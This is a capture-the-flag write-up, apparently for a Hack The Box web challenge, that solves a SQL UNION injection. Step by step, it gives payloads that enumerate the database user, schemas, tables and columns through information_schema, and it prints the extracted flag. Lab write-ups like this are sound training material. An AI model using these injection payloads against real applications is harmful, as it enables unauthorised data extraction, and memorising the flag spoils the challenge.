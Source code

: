 # Web - Unholy Union

## Description

On the outskirts of a forsaken town lies an abandoned warehouse, rumored to store more than just forgotten relics. Locals speak of an unholy union within its database, where spectral data intertwines with the realm of the living. Whispers tell of a cursed ledger that merges forbidden entries through mysterious queries. Some say that the warehouse's inventory system responds to those who know how to merge the right requests. Can you brave the haunted inventory system and unravel the ghostly union of data before the spirits corrupt the world beyond?

## Homepage

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

The challenge name and the query itself says this can be solved through `SQL Union Injection`

## Attack

### Table description

First we can search with a   to see the table description (a space will match all characters since it's using SQL `LIKE` operator)

```js
{
    "id": 1,
    "name": "Plumbus",
    "description": "A highly useful multi-purpose tool.",
    "origin": "Planet Schlooch",
    "created_at": "2024-10-22T14:12:33.000Z"
  },
```

so it's `int,str,str,str,date`

### User

```sql
ads'union select 1,user(),"","",NULL-- -
```

Result:

```json
[
  {
    "id": 1,
    "name": "user@localhost",
    "description": "",
    "origin": "",
    "created_at": null
  }
]
```

### Databases

```sql
SELECT * FROM inventory WHERE name LIKE '%ads'union select 1,schema_name,"","",NULL from information_schema.schemata-- -%'
```

Result

```json
[
  {
    "id": 1,
    "name": "information_schema",
    "description": "",
    "origin": "",
    "created_at": null
  },
  {
    "id": 1,
    "name": "halloween_invetory",
    "description": "",
    "origin": "",
    "created_at": null
  },
  {
    "id": 1,
    "name": "test",
    "description": "",
    "origin": "",
    "created_at": null
  }
]
```

Our interest lies in `halloween_invetory` database

### Tables

```sql
aaa'union select 1,table_schema,table_name,NULL,NULL from information_schema.tables where table_schema="halloween_invetory"-- -
```

Result:

```json
[
  {
    "id": 1,
    "name": "halloween_invetory",
    "description": "flag",
    "origin": null,
    "created_at": null
  },
  {
    "id": 1,
    "name": "halloween_invetory",
    "description": "inventory",
    "origin": null,
    "created_at": null
  }
]
```

So there are **2 tables, flag and inventory**

Let's get our flag....

### Column

```sql
SELECT * FROM inventory WHERE name LIKE '%aaa'union select 1, NULL,table_name,column_name,NULL from information_schema.columns where table_name="flag"-- -%'
```

Result:

```json
[
  {
    "id": 1,
    "name": null,
    "description": "flag", //table name
    "origin": "flag", //column name
    "created_at": null
  }
]
```

We have 1 column named flag......

### Flag

```sql
SELECT * FROM inventory WHERE name LIKE '%aaa'union select \
1, flag, NULL, NULL, NULL from halloween_invetory.flag-- -%'
-- so halloween_invetory.flag is database.table (we usually use this way to get 
-- values from other database (if we know db name && table name && column name)
```

```json
[
  {
    "id": 1,
    "name": "HTB{uN10n_1nj3ct10n_4r3_345y_t0_l34rn_r1gh17?_9c967dbf96425dc2df3b06135f0d003d}",
    "description": null,
    "origin": null,
    "created_at": null
  }
]
//name here is one of the value in column flag 
```

`HTB{uN10n_1nj3ct10n_4r3_345y_t0_l34rn_r1gh17?_9c967dbf96425dc2df3b06135f0d003d}`\


\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes' still pwning
